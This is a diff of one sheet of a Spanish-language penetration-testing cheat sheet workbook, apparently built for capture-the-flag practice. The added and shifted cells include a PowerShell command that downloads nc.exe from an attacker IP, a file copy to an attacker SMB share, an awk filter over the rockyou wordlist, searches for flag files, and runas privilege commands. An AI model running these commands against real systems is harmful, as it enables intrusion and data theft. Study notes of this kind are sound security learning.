

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet General, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet General)
+++ b/CheatSheet.xlsm (sheet General)
-V34: (empty)
+V34: powershell.exe -command Invoke-WebRequest '10.10.14.23/nc.exe' -Outfile nc.exe
-W34: (empty)
+W34: Nos sirve para descargar cosas, es el cmdlet de curl en Powershell implementado en la version 3 de Powershell
-X34: (empty)
+X34: comillas simples o dobles
-N35: (empty)
+N35: awk '/^[Ll]i/ {print}' /usr/share/wordlists/rockyou.txt > dicc.txt
-O35: (empty)
+O35: Para crear un Diccionario que empiece por L o por l y continue con una i
-V35: CMD Windows
+V35: (empty)
-V35:X35 merged
-V36: Comandos
+V36: (empty)
-W36: Descripcion
+W36: (empty)
-X36: Anotaciones
+X36: (empty)
-V37: dir *flag* /s C:/
+V37: (empty)
-W37: Nos busca cualquier archivo que tenga en su nombre flag
+W37: (empty)
-X37: en C:/
+X37: (empty)
-V38: dir flag*.txt /s
+V38: CMD Windows
+V38:X38 merged
-W38: Lo mismo pero que tengan la extension .txt
+W38: (empty)
-V39: copy badboys.rar \\172.20.0.80\smbFolder\archivo
+V39: Comandos
-W39: Copia un archivo por linea de comando a la carpeta compartida por smb
+W39: Descripcion
-X39: Normalmente smb levantado en Kali smbFolder es la carpeta levantada con impackets
+X39: Anotaciones
-V40: runas /user:nombreusuario <programa>
+V40: dir *flag* /s C:/
-W40: Para ejecutar un comando o un programa como otro usuario
+W40: Nos busca cualquier archivo que tenga en su nombre flag
-X40: Por linea de comandos
+X40: en C:/
-V41: runas /user:administrator regedit
+V41: dir flag*.txt /s
-W41: Para ejecutar un comando o un programa como administrador, en este caso el regedit
+W41: Lo mismo pero que tengan la extension .txt
-X41: https://protegermipc.net/2018/09/05/ejemplos-uso-del-comando-runas-en-windows/
+X41: (empty)
-V42: cd Des*
+V42: copy badboys.rar \\172.20.0.80\smbFolder\archivo
-W42: Para cambiar de ruta al escritorio con comodines
+W42: Copia un archivo por linea de comando a la carpeta compartida por smb
-X42: (empty)
+X42: Normalmente smb levantado en Kali smbFolder es la carpeta levantada con impackets
-V43: whoami /priv
+V43: runas /user:nombreusuario <programa>
-W43: Nos muestra los privilegios que tenemos
+W43: Para ejecutar un comando o un programa como otro usuario
-X43: (empty)
+X43: Por linea de comandos
```
Also changed, not shown: 2 added rows, 30 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, sheet Inyecciones, cell formats.
